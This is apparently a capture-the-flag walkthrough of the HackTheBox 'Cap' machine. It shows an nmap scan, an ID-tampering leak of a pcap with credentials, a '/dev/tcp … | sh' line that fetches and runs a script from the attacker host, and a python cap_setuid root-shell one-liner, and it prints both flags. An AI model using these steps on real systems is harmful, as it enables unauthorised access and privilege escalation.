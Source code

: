 # Cap

### Challenge: FullPWN

### Tools: Nmap, FTP, SSH, Linpeas, Python


Nmap scan shows port 80 and port 22 are open. Maybe we can grab some credentials from the http site and login through ssh.

```console
sudo nmap -sC -sV -O -A -Pn 10.129.80.145
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-03 23:20 BST
Nmap scan report for 10.129.80.145
Host is up (0.0065s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=8/3%Time=62EAF4D7%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20W
SF:ed,\x2003\x20Aug\x202022\x2022:21:11\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x201938
SF:6\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\n
SF:\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x
SF:20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image/
SF:png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<l
SF:ink\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">\
SF:n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/font
SF:-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=\
SF:"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.c
SF:ss\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/cs
SF:s/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptions
SF:,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,\x20
SF:03\x20Aug\x202022\x2022:21:12\x20GMT\r\nConnection:\x20close\r\nContent
SF:-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20
SF:HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text/
SF:html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20\
SF:x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\n
SF:\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invalid
SF:\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP/
SF:1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189,
SF:"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20We
SF:d,\x2003\x20Aug\x202022\x2022:21:17\x20GMT\r\nConnection:\x20close\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\r
SF:\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20F
SF:inal//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\
SF:n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20serv
SF:er\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20che
SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/3%OT=21%CT=1%CU=31834%PV=Y%DS=2%DC=T%G=Y%TM=62EAF55E
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11
OS:NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   10.70 ms 10.10.14.1
2   10.86 ms 10.129.80.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.02 seconds
```

On the website we can see we are logged in as the user Nathan and we have a couple of different places to go. Lets start with the security snapshot.

![image](https://user-images.githubusercontent.com/105310322/183150769-dfb7ac3d-884a-4299-acf6-161cc1cc971c.png)

Here we can download a pcap file but right now it doesnt have any traffic, But if we look at the URL we can see http://10.129.110.186/data/1. If we change that 1 to a 0 we can get the previous pcap download!

![image](https://user-images.githubusercontent.com/105310322/183151068-2c3e3391-19ae-4b12-b25e-49ebe5052a9b.png)

After downloading the pcap file and opening it up in wireshark we find some cleartext credentials.

![image](https://user-images.githubusercontent.com/105310322/183151371-1ac9a8ca-d2d7-4d9f-93b5-ea69d0465110.png)

Nicely done now we can login through ssh and grab the user flag! (You can also get this flag through ftp by running ```$ get user.txt -```, however you will not be able to retrieve the root flag)

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ ssh nathan@10.129.110.186
nathan@10.129.110.186's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
Last login: Fri Aug  5 19:29:30 2022 from 10.10.14.93
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
e62962879f1dc62e87f32fe0c15f0596
```

Awesome but now we need to get the root flag, however we can't just waltz right in there. We are going to have to priveledge escalate. So lets run linpeas from Nathan's account.

First lets download it from github. (This following URL also gives good info on how to run it)

```console
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
By inputting the following commands we can get it to run (```python -m http.server 80``` is another option since linpeas SimpleHTTPServer was not working for me)

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
The following output with linpeas reveals "/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip" as our way to priviledge exscalate. (for me this was highlighted in bright yellow so its hard to miss) The following URL to hacktricks also gives good info on how to abuse the setuid capability.

```console
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current env capabilities:
Current: =
Current proc capabilities:
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Parent Shell capabilities:
0x0000000000000000=

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Run the python script and it will give us a root shell and the flag!!

```console
nathan@cap:/bin$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/bin# ls
root@cap:/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
b6af56f563c273361dbc6236d2489cf5
```

Congratulations on PWNing this box and I hope this writeup taught you something.

